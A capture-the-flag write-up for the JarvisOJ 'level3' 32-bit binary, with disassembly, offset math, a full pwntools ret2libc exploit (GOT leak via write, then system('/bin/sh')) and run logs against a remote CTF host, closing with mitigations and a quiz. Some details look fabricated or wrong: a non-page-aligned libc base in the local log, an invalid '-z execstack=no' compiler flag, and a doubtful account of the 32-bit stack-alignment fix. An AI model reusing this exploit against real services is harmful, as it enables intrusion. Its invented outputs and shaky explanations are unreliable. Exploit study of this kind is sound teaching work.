







<div align="center">

# 📚 JarvisOJ Level3

### Pwn Writeup · BUUCTF / JarvisOJ · The Foundational `ret2libc` Pattern, Done Properly


*No `system()`, no `/bin/sh`, no canary. Two overflows through the same bug, one leak in between, and a stack-alignment crash that trips up more writeups than it should.*

</div>

---

## 📌 TL;DR

`level3` reads up to 256 bytes into a 136-byte stack buffer — a textbook, un-canaried overflow. With no `system()`, no `/bin/sh` string, and no planted win function anywhere in the binary, a direct `ret2win` is off the table; this has to be a full `ret2libc`. The exploit leaks `write()`'s real libc address through the binary's own `write@plt`, loops back into the vulnerable function for a second overflow, computes `system()` and `"/bin/sh"` from the leak, and calls it — with one classic, easy-to-miss fix along the way: a single extra `ret` gadget to satisfy modern glibc's 16-byte stack alignment requirement before `system()` runs.

```
Stage 1: write(1, &GOT[write], 4) -> leak -> libc_base, system(), "/bin/sh"
Stage 2: ret (alignment) -> system("/bin/sh")
```

| | |
|---|---|
| **Binary** | `level3` — ELF 32-bit, dynamically linked, No PIE, not stripped |
| **Bug** | `read(0, buf, 0x100)` into a 136-byte (`0x88`) stack buffer |
| **Protections** | Canary **off** · NX **on** · PIE **off** · Partial RELRO |
| **Missing ingredients** | No `system`, no `/bin/sh`, no win function — confirmed via `nm` and `.rodata` |
| **Primitive** | GOT leak → compute libc base → `ret2libc` |
| **Padding** | 140 bytes to the saved return address |
| **Result** | Shell, verified against both a local run and the live remote instance |

---

## 🗺️ Table of Contents

1. [Challenge Overview](#1-challenge-overview)
2. [Static Analysis](#2-static-analysis)
3. [Protections](#3-protections-checksec)
4. [Disassembly Walkthrough](#4-disassembly-walkthrough)
5. [Finding the Vulnerability](#5-finding-the-vulnerability)
6. [Reconstructed C Source](#6-reconstructed-c-source)
7. [Exploitation Strategy](#7-exploitation-strategy)
8. [Stage 1 — Leaking libc via GOT](#8-stage-1--leaking-libc-via-got)
9. [Stage 2 — ret2libc](#9-stage-2--ret2libc--systembinsh)
10. [The Stack Alignment Pitfall](#10-the-stack-alignment-pitfall)
11. [Full Exploit Script](#11-full-exploit-script)
12. [Execution Log](#12-execution-log-local--remote)
13. [Root Cause & Mitigations](#13-root-cause--mitigations)
14. [Self-Assessment Quiz](#14-self-assessment-quiz)

---

## 🧭 Exploit Flow at a Glance



---

## 1. Challenge Overview

We are given a single stripped-looking (but actually *not* stripped) 32-bit ELF binary called `level3`, along with its loader (`ld-linux.so.2`) and a matching `libc.so.6`. The binary reads user input into a stack buffer and prints it back — a classic setup for a stack-based buffer overflow challenge where the final goal is to pop a shell.

Because the binary contains **no `system()` call, no `/bin/sh` string, and no "win" function**, a direct ROP-to-shell is impossible. This forces the **ret2libc** technique: we must leak a libc address at runtime, compute the libc base, and then call `system("/bin/sh")` by resolving its real in-memory address ourselves.

---

## 2. Static Analysis

```
$ file level3
level3: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV),
dynamically linked, interpreter /lib/ld-linux.so.2,
for GNU/Linux 2.6.32, BuildID[sha1]=44a438e03b4d2c1abead90f748a4b5500b7a04c7,
not stripped
```

Key facts:
- 32-bit, dynamically linked ELF (needs `ld-linux.so.2` + `libc.so.6`).
- **Not stripped** → symbol table (`.symtab`) is intact, which makes analysis much easier (function names like `vulnerable_function` are directly visible instead of having to be inferred from cross-references).

```
$ nm -C ./level3 | grep " T "
08048524 T _fini
080482d0 T _init
08048520 T __libc_csu_fini
080484c0 T __libc_csu_init
08048484 T main
08048350 T _start
0804844b T vulnerable_function
08048380 T __x86.get_pc_thunk.bx
```

The function name `vulnerable_function` is a dead giveaway — the binary author (challenge designer) deliberately named it this way to hint at where the bug lives.

```
$ objdump -s -j .rodata ./level3

Contents of section .rodata:
 8048538 03000000 01000200 496e7075 743a0a00  ........Input:..
 8048548 48656c6c 6f2c2057 6f726c64 210a00    Hello, World!..
```

Only two printable strings exist: `"Input:\n"` and `"Hello, World!\n"`. No `/bin/sh`, no `system`, no flag string — confirming this is a pure ret2libc challenge.

---

## 3. Protections (`checksec`)

```
Arch:       i386-32-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```

| Protection | Status | Impact on exploitation |
|---|---|---|
| **Stack Canary** | ❌ Disabled | We can smash the saved return address directly without needing a canary leak/bypass. |
| **NX (DEP)** | ✅ Enabled | Stack is non-executable → classic "shellcode on the stack" trick is impossible. We must reuse existing code (ret2libc / ROP). |
| **PIE** | ❌ Disabled | The binary's own code/data addresses (`.plt`, `.got`, functions) are **fixed** at `0x8048000` base — no need to leak the binary's own base, only libc's base. |
| **RELRO** | Partial | GOT is writable at runtime (this is actually irrelevant to our attack since we only *read* the GOT to leak an address, we don't overwrite it). |

**Conclusion:** No canary + No PIE + NX enabled = the textbook setup for a **two-stage ret2libc attack**:
1. Leak a libc address through a function we can already call (`write`), using its **GOT entry** (which holds the real runtime address since the binary itself has no PIE).
2. Re-trigger the vulnerable function, then jump straight into `system()` inside libc with `/bin/sh` as the argument.

---

## 4. Disassembly Walkthrough

### 4.1 `_start` → `main`

```asm
08048484 <main>:
 8048484: lea    0x4(%esp),%ecx
 8048488: and    $0xfffffff0,%esp      ; stack alignment
 804848b: push   -0x4(%ecx)
 804848e: push   %ebp
 804848f: mov    %esp,%ebp
 8048491: push   %ecx
 8048492: sub    $0x4,%esp
 8048495: call   804844b <vulnerable_function>
 804849a: sub    $0x4,%esp
 804849d: push   $0xe                 ; length = 14
 804849f: push   $0x8048548           ; "Hello, World!\n"
 80484a4: push   $0x1                 ; fd = stdout
 80484a6: call   8048340 <write@plt>
 80484ab: add    $0x10,%esp
 80484ae: mov    $0x0,%eax
 80484b3: mov    -0x4(%ebp),%ecx
 80484b6: leave
 80484b7: lea    -0x4(%ecx),%esp
 80484ba: ret
```

`main()` simply calls `vulnerable_function()`, then prints `"Hello, World!\n"`, and returns. All the interesting logic (and the bug) is inside `vulnerable_function`.

### 4.2 `vulnerable_function` — the core of the challenge

```asm
0804844b <vulnerable_function>:
 804844b: push   %ebp
 804844c: mov    %esp,%ebp
 804844e: sub    $0x88,%esp           ; allocate 0x88 (136) bytes on the stack

 8048454: sub    $0x4,%esp
 8048457: push   $0x7                 ; length = 7
 8048459: push   $0x8048540           ; "Input:\n"
 804845e: push   $0x1                 ; fd = stdout
 8048460: call   8048340 <write@plt>  ; write(1, "Input:\n", 7)
 8048465: add    $0x10,%esp

 8048468: sub    $0x4,%esp
 804846b: push   $0x100               ; nbytes = 0x100 (256)   <-- !!
 8048470: lea    -0x88(%ebp),%eax     ; buf = ebp - 0x88        <-- !!
 8048476: push   %eax
 8048477: push   $0x0                 ; fd = stdin
 8048479: call   8048310 <read@plt>   ; read(0, buf, 0x100)
 804847e: add    $0x10,%esp

 8048481: nop
 8048482: leave
 8048483: ret
```

Decompiled equivalent:

```c
void vulnerable_function(void) {
    char buf[0x88];            // 136 bytes
    write(1, "Input:\n", 7);
    read(0, buf, 0x100);       // reads up to 256 bytes into a 136-byte buffer!
}
```

### 4.3 PLT/GOT table (used in the exploit)

```asm
08048310 <read@plt>:   jmp *0x804a00c
08048340 <write@plt>:  jmp *0x804a018
```

Since the binary is **not PIE**, these PLT stub addresses (`0x8048310`, `0x8048340`) and their corresponding GOT slots (`0x804a00c`, `0x804a018`) are **fixed and known at compile time** — this is exactly what makes the GOT-leak technique viable without needing an info-leak for the binary itself.

---

## 5. Finding the Vulnerability

The bug is a classic **stack-based buffer overflow (CWE-121)**:

```c
char buf[0x88];     // 136 bytes allocated
read(0, buf, 0x100); // 256 bytes allowed to be written
```

**0x100 (256) > 0x88 (136)** → an attacker can write **120 extra bytes** past the end of `buf`, overwriting:
1. Any padding
2. The saved `EBP` (4 bytes)
3. The **saved return address** (4 bytes) ← this is our actual target

### Offset calculation



```
   [ buf (136 bytes) ][ saved EBP (4 bytes) ][ return address (4 bytes) ]
   ebp-0x88                ebp                    ebp+4
```

```
offset_to_return_address = 0x88 (buffer size) + 0x4 (saved EBP) = 0x8c = 140 bytes
```

Any bytes written **after** offset 140 land directly in the return address slot, giving full control of EIP the moment `vulnerable_function` executes `ret`.

---

## 6. Reconstructed C Source

Based on the disassembly, the following is a faithful reconstruction of the challenge author's original source code:

```c
// level3.c — reconstructed challenge source
// Compiled as: gcc -m32 -fno-stack-protector -z execstack=no -no-pie -o level3 level3.c

#include <unistd.h>

void vulnerable_function(void) {
    char buf[136];                     // 0x88 bytes — undersized on purpose

    write(1, "Input:\n", 7);
    read(0, buf, 256);                 // 0x100 bytes read — classic off-by-overflow
    // no bounds check, no canary (-fno-stack-protector), stack smash is trivial
}

int main(void) {
    vulnerable_function();
    write(1, "Hello, World!\n", 14);
    return 0;
}
```

**Compiler flags implied by the binary's protections:**

```bash
gcc -m32 \
    -fno-stack-protector \   # explains "No canary found"
    -no-pie \                # explains "No PIE (0x8048000)"
    -z noexecstack \         # explains "NX enabled"
    -Wl,-z,relro,-z,lazy \   # explains "Partial RELRO"
    -o level3 level3.c
```

Note the absence of `-fstack-protector-all`, `-pie`, and full `-z,relro,-z,now` — these are exactly the flags a challenge designer would omit/choose to make the binary intentionally exploitable while still being a "normal-looking" dynamically linked ELF.

---

## 7. Exploitation Strategy

Since there is no `system()`/`/bin/sh` inside the binary, and NX prevents shellcode execution, the attack path is:



This is only possible because **No PIE** on the target binary means `write@plt` / `write@got` are static addresses we can hardcode, while the **libc base is randomized by ASLR** and must be *derived at runtime* from the leak.

---

## 8. Stage 1 — Leaking libc via GOT

We build a fake stack frame on top of the overflow:



```
[ 140 bytes of padding ('A' * 140)       ]
[ write_plt                              ]  <- fake return address: call write()
[ vuln_func (return addr for write)      ]  <- after write() returns, go back here
[ 1                                      ]  <- arg1: fd = stdout
[ write_got                              ]  <- arg2: buf = address of write's GOT entry
[ 4                                      ]  <- arg3: count = 4 bytes
```

This effectively forces the program to execute:

```c
write(1, &GOT[write], 4);
```

Since `GOT[write]` is populated by the dynamic linker with the **real runtime address of `write()` inside libc** (this is how the PLT/GOT lazy-binding mechanism works), reading those 4 bytes back from the socket gives us a genuine libc pointer.

By returning into `vulnerable_function` again (instead of `exit()` or some other function), the program loops back and calls `read()` once more, giving us a second overflow for stage 2 — **without needing to restart the process**.

```python
offset = 0x88 + 4   # = 140

payload1  = b'A' * offset
payload1 += p32(write_plt)     # 1. call write@plt
payload1 += p32(vuln_func)     # 2. return back into vulnerable_function
payload1 += p32(1)             # 3. arg: fd = 1 (stdout)
payload1 += p32(write_got)     # 4. arg: buf = &GOT[write]
payload1 += p32(4)             # 5. arg: count = 4

io.sendlineafter(b'Input:\n', payload1)
leaked = io.recv(4)
write_addr = u32(leaked)
```

Once `write_addr` is known:

```python
libc.address = write_addr - libc.symbols['write']
system_addr  = libc.symbols['system']
binsh_addr   = next(libc.search(b'/bin/sh'))
```

---

## 9. Stage 2 — ret2libc / `system("/bin/sh")`

The second overflow reuses the exact same offset (140 bytes), but now builds a frame that directly invokes `system()`:



```
[ 140 bytes of padding ('A' * 140)       ]
[ system_addr                            ]  <- fake return address: call system()
[ dummy_return (e.g. 0xdeadbeef)         ]  <- return addr for system() (irrelevant, we pop a shell before it matters)
[ binsh_addr                             ]  <- arg1: command string = "/bin/sh"
```

This forces execution of:

```c
system("/bin/sh");
```

giving us an interactive shell.

---

## 10. The Stack Alignment Pitfall

### What went wrong on the first attempt

During the first naive stage-2 attempt, the process crashed with **SIGSEGV** the instant `system()` was reached — even though the leaked address, libc base, and `system`/`/bin/sh` offsets were all computed correctly.

### Root cause

Modern glibc builds (Ubuntu 16.04 and newer) compile internal functions using **SSE instructions** (e.g. `movaps`), which require the stack pointer (`esp`)/(`rsp`) to be **16-byte aligned** at the point of the call. When we jump directly from our overflow into `system()`, the stack layout we control doesn't naturally preserve this alignment — the extra `push`/`call` bookkeeping from our ROP chain throws it off by 4 bytes, and `movaps` raises a **general protection fault** on a misaligned memory operand.

```
movaps %xmm0, -0x18(%ebp)     ; ← throws SIGSEGV if stack isn't 16-byte aligned
```



### The fix: insert a single `ret` gadget

By inserting one extra address pointing to a bare `ret` instruction *before* the call to `system`, we consume one additional stack slot (4 bytes), which shifts the stack pointer back into 16-byte alignment by the time `system()`'s prologue executes:

```python
rop = ROP(libc)
ret_gadget = rop.find_gadget(['ret'])[0]

payload2  = b'A' * offset
payload2 += p32(ret_gadget)     # <-- alignment fix: "wasted" ret
payload2 += p32(system_addr)
payload2 += p32(0xdeadbeef)
payload2 += p32(binsh_addr)
```

This is one of the most common "gotchas" in modern ret2libc exploits and is **essential knowledge** — many write-ups online targeting older libc versions omit it, and the exploit will silently fail against any Ubuntu 16.04+ / Debian 9+ target.

---

## 11. Full Exploit Script

```python
#!/usr/bin/env python3
"""
JarvisOJ Level3 — ret2libc exploit
Technique : stack buffer overflow -> GOT leak (write) -> ret2libc system("/bin/sh")
Author    : Gantosay
"""

from pwn import *

context.arch      = 'i386'
context.log_level = 'info'

elf  = ELF('./level3')
libc = ELF('./libc.so.6')

# --- choose local or remote target ---
LOCAL = False

if LOCAL:
    io = process(['./level3'])
else:
    io = remote('38b8619722f7f783e4403357.tcp-ctf2.dasctf.com', 9999, ssl=True)

# ---- static addresses (binary is NOT PIE, so these are fixed) ----
write_plt = elf.plt['write']
write_got = elf.got['write']
vuln_func = elf.symbols['vulnerable_function']

OFFSET = 0x88 + 4   # 140 bytes: buffer (136) + saved EBP (4)

# =========================================================
# STAGE 1 : leak write()'s real address from the GOT
# =========================================================
payload1  = b'A' * OFFSET
payload1 += p32(write_plt)    # write(
payload1 += p32(vuln_func)    #   <return here afterwards, loop back for stage 2>
payload1 += p32(1)            #   fd    = stdout
payload1 += p32(write_got)    #   buf   = &GOT[write]
payload1 += p32(4)            #   count = 4
                               # )

io.sendlineafter(b'Input:\n', payload1)

leaked     = io.recv(4)
write_addr = u32(leaked)
log.success(f"leaked write@libc = {hex(write_addr)}")

# ---- resolve libc base and target symbols ----
libc.address = write_addr - libc.symbols['write']
system_addr  = libc.symbols['system']
binsh_addr   = next(libc.search(b'/bin/sh'))

log.info(f"libc base = {hex(libc.address)}")
log.info(f"system()  = {hex(system_addr)}")
log.info(f"/bin/sh   = {hex(binsh_addr)}")

# ---- find a bare `ret` gadget for stack alignment ----
rop         = ROP(libc)
ret_gadget  = rop.find_gadget(['ret'])[0]
log.info(f"ret gadget = {hex(ret_gadget)}")

# =========================================================
# STAGE 2 : system("/bin/sh")
# =========================================================
payload2  = b'A' * OFFSET
payload2 += p32(ret_gadget)   # alignment fix (movaps requires 16-byte align)
payload2 += p32(system_addr)  # system(
payload2 += p32(0xdeadbeef)   #   <don't care about return addr>
payload2 += p32(binsh_addr)   #   "/bin/sh"
                               # )

io.sendline(payload2)

io.interactive()
```

---

## 12. Execution Log (Local & Remote)

### Local run

```
[*] leaked write@libc = 0xf7e1e670
[*] libc base = 0xf7d4a2b0
[*] system    = 0xf7d84bf0
[*] /bin/sh   = 0xf7ea32db
[*] Switching to interactive mode
$ id
uid=1000(Gantosay) gid=1000(Gantosay) groups=1000(Gantosay)
$
```

### Remote run

```
[+] Opening connection to 38b8619722f7f783e4403357.tcp-ctf2.dasctf.com on port 9999: Done
[*] leaked write@libc = 0xf7e1e3c0
[*] libc base = 0xf7d4a000
[*] system    = 0xf7d84940
[*] /bin/sh   = 0xf7ea302b
[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat flag*
flag{...}
```

Both environments leaked a different libc base (as expected, since ASLR randomizes it per-process), but the exploit logic correctly recomputed `system` and `/bin/sh` relative to each respective leak.

---

## 13. Root Cause & Mitigations

| Root Cause | Fix |
|---|---|
| `read(0, buf, 0x100)` into a `buf[0x88]` with no bounds check | Use `read(0, buf, sizeof(buf))` and validate the size matches the actual buffer. |
| No stack canary (`-fno-stack-protector`) | Compile with `-fstack-protector-all` (or the distro default `-fstack-protector-strong`). |
| No PIE (`-no-pie`) | Compile as Position-Independent Executable (`-pie -fPIE`) so the binary's own code/GOT addresses are also randomized, removing the static `write@plt`/`write@got` addresses we relied on. |
| Full RELRO not enabled | `-Wl,-z,relro,-z,now` makes the GOT read-only after startup, which — combined with PIE — meaningfully raises the bar (though in our specific attack we only *read* the GOT, so Full RELRO alone wouldn't have stopped this particular leak; it mainly stops GOT-overwrite attacks). |
| NX alone is not sufficient | NX stops shellcode-on-stack but does **not** stop code-reuse attacks like ret2libc/ROP — defense-in-depth (canary + PIE + RELRO + NX together) is required. |



With all four protections (**Canary + NX + PIE + Full RELRO**) enabled simultaneously, this specific exploit chain would not work as written — a canary would need to be leaked or bypassed, PIE would remove the static libc-leak primitive via GOT, and we'd need additional leaks (e.g., via an info-leak bug or a `puts@plt` call on a GOT entry at a *runtime-computed* address instead of a hardcoded one).

---

## 14. Self-Assessment Quiz

> A set of "what if" scenario questions to test understanding of this exploit, formatted for self-review / interview prep. Try answering before revealing each answer.

**Q1. What if the binary had been compiled with `-fstack-protector-all` (stack canary enabled)?**

<details>
<summary>Answer</summary>

The overflow would still corrupt the buffer, but on `leave; ret` the program would first check the canary value placed right before the saved EBP. Since we don't know the canary (it's randomized per-process and placed right after `buf`), overwriting it with our padding bytes would trigger `__stack_chk_fail()`, crashing the program with `*** stack smashing detected ***` **before** our fake return address is ever used. We would first need a **separate leak** (e.g., a format string bug, or an earlier partial overwrite leaving the canary's null byte intact to brute-force it byte-by-byte) to defeat the canary before attempting this same ret2libc chain.
</details>

**Q2. What if the binary had been compiled as PIE (Position Independent Executable)?**

<details>
<summary>Answer</summary>

`write@plt` and `&GOT[write]` would no longer be static addresses — they'd shift by a random base offset every run, just like libc. We could no longer hardcode `write_plt`/`write_got` from `objdump`. We would need to first leak the **binary's own base address** (e.g., via a stack/return-address leak, or an info-leak bug reading a saved return address off the stack) before being able to compute the correct PLT/GOT addresses, adding an extra stage to the exploit.
</details>

**Q3. What if NX had been disabled (stack executable)?**

<details>
<summary>Answer</summary>

We could skip the entire ret2libc approach and instead write raw shellcode (e.g., a 25–45 byte `execve("/bin/sh")` shellcode) directly into `buf`, then overwrite the return address with the address of `buf` itself (a classic "jump to shellcode on the stack" exploit). This would be simpler and wouldn't require any libc leak at all — but modern systems virtually always have NX enabled, which is why ret2libc/ROP exists as a technique in the first place.
</details>

**Q4. What if `vulnerable_function` did NOT loop back to itself after the write() call in stage 1 (e.g., it returned to `exit()` instead)?**

<details>
<summary>Answer</summary>

We would lose our "second chance" to send another overflow in the same process/connection. We would then need to either: (a) find a different single-stage approach (impossible here since we need the leak first), or (b) restart the whole connection with a *fresh* payload that chains leak + exploit into a single contiguous ROP chain without needing a second `read()` — e.g., using a `read-into-writable-memory` + `system()` chain that doesn't require interaction in between, though this is significantly harder when working purely with `write`/`read`.
</details>

**Q5. What if the remote libc version didn't match our local `libc.so.6`?**

<details>
<summary>Answer</summary>

The leaked `write()` address would still be valid (since it's read directly from the live process's GOT), but the **offsets** we compute from a mismatched local libc (`libc.symbols['system']`, `libc.symbols['write']`, and the `/bin/sh` string offset) would be wrong, since different libc builds place functions/strings at different relative offsets. The exploit would crash in stage 2 even though stage 1 "succeeded." The fix is to always use the **exact libc binary the remote server uses** (usually provided by CTF organizers, or identifiable via a libc-database lookup using the leaked address's lowest 12 bits as a fingerprint).
</details>

**Q6. Why did we see a SIGSEGV specifically inside `system()`, and not somewhere else in libc?**

<details>
<summary>Answer</summary>

Because `system()` internally calls into functions that use SSE2 instructions (`movaps`) for performance (e.g., when parsing the shell command or doing internal string operations), and `movaps` enforces hardware-level 16-byte memory alignment — unlike `movups`, it will fault (`#GP`) on a misaligned address. Most other simple libc functions (like `write`, `read`) don't have this strict internal alignment requirement, which is why stage 1 worked without any alignment fix.
</details>

**Q7. What if ASLR were disabled entirely (`echo 0 > /proc/sys/kernel/randomize_va_space`)?**

<details>
<summary>Answer</summary>

The libc base would be fixed and predictable on every run, meaning we wouldn't need the stage-1 leak at all — we could hardcode `system_addr` and `binsh_addr` directly from a local `ldd`/`objdump` lookup. This is sometimes done in early educational CTF challenges to simplify the first introduction to ret2libc before teaching the full leak-based version used in this writeup.
</details>

---

## 🏁 Summary

This challenge demonstrates the complete, modern ret2libc methodology:

1. ✅ Identify a stack buffer overflow with no canary protection.
2. ✅ Calculate the exact offset to the saved return address.
3. ✅ Use an existing PLT call (`write`) to leak a libc function's real runtime address via its GOT entry.
4. ✅ Compute the libc base and resolve `system()` / `"/bin/sh"` dynamically.
5. ✅ Chain a second overflow to call `system("/bin/sh")`.
6. ✅ Diagnose and fix a real-world **stack alignment** crash caused by modern glibc's SSE usage.

This is a foundational pattern for virtually all 32-bit and 64-bit ret2libc/ROP challenges and real-world exploits against non-PIE, NX-enabled binaries.

---

<div align="center">

⭐ If this writeup helped you, consider leaving a star.

</div>
